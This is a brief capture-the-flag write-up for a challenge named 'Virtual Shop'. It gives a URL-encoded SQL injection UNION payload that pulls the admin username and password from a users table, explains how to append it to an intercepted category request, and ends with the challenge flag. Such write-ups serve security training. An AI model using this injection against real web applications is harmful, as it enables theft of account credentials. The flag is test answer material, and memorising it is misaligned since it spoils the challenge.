


# Virtual Shop
## Writeup
You can use this payload: 
`+UNION+SELECT+username,NULL,password,NULL+FROM+users+WHERE+username%3d'admin'--`
You can intercept the request when choosing a category and append the payload above to it, just like this:

Then just take a look at the response:

## Flag
```shellmates{Gg_b0Y_you_kNOW_w3ll_H0w_T0_uSe_uNiOn_4tTacK}```
